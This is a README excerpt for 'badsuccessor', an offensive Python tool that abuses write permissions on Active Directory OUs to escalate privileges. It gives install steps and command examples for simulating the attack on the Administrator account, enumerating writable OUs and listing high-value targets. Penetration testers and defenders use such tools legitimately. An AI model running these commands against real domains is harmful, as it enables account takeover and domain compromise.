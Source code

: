 ### Required Permissions
- Valid domain credentials (any user account)
- **ANY** of the following permissions on at least one Organizational Unit:
  - `CreateChild` permission
  - `Write` permission
  - `GenericWrite` permission
  - `GenericAll` permission
  - Member of default groups with write access (e.g., Authenticated Users)
- Tool automatically discovers all writable OUs and shows specific permissions

## 🚀 Installation

```bash
git clone https://github.com/cybrly/badsuccessor.git
cd badsuccessor
pip3 install -r requirements.txt
chmod +x badsuccessor.py
```

### requirements.txt
```
ldap3>=2.9.1
pyasn1>=0.4.8
pycryptodome>=3.15.0
impacket==0.12.0
dnspython>=2.1.0
```

## 📖 Usage

### Basic Syntax
```bash
python3 badsuccessor.py -d <domain> -u <username> -p <password> [options]
```

### Quick Start Examples

#### 1. Dry Run Mode (NEW) - Test Without Making Changes
```bash
# Simulate attack to verify viability
python3 badsuccessor.py -d corp.local -u john -p Password123 --dry-run --target Administrator

# Dry run with specific OU
python3 badsuccessor.py -d corp.local -u john -p Password123 --dry-run --target Administrator --ou-dn "OU=ServiceAccounts,DC=corp,DC=local"
```

#### 2. Enumerate Environment
```bash
# Check Windows Server 2025 schema support
python3 badsuccessor.py -d corp.local -u john -p Password123 --check-schema

# Find ALL writable OUs with detailed permissions
python3 badsuccessor.py -d corp.local -u john -p Password123 --enumerate

# List high-value targets
python3 badsuccessor.py -d corp.local -u john -p Password123 --list-targets

# Validate specific target account
python3 badsuccessor.py -d corp.local -u john -p Password123 --validate-target Administrator
```
